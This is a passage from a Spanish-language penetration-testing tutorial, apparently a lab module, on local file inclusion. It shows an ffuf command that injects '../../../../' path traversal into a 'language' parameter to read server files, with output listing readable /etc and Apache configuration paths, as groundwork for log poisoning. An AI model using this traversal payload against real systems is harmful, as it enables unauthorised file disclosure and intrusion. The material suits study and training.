 Como podemos ver, el escaneo realmente identificó la ruta correcta de raíz web en (`/var/www/html/`). También podemos usar lo mismo[Lfi-jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)Lista de palabras que utilizamos anteriormente, ya que también contiene varias cargas útiles que pueden revelar la raíz web. Si esto no nos ayuda a identificar la raíz web, entonces nuestra mejor opción sería leer las configuraciones del servidor, ya que tienden a contener la raíz web y otra información importante, como veremos a continuación.

### **Registros/configuraciones del servidor**

Como hemos visto en la sección anterior, necesitamos poder identificar el directorio de registros correcto para poder realizar los ataques de envenenamiento de registros que discutimos. Además, como acabamos de discutir, también es posible que necesitemos leer las configuraciones del servidor para poder identificar la ruta del Servidor Webroot y otra información importante (¡como la ruta de registros!).

Para hacerlo, también podemos usar el[Lfi-jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)Lista de palabras, ya que contiene muchos de los registros de servidores y las rutas de configuración que podemos estar interesados. Si queríamos un escaneo más preciso, podemos usar esto[lista de palabras para Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)o esto[Lista de palabras para Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), aunque no son parte de`seclists`, por lo que debemos descargarlos primero. Probemos la lista de palabras de Linux contra nuestra vulnerabilidad de LFI y veamos lo que obtenemos:

Escaneo automático

```
xnoxos@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]

```
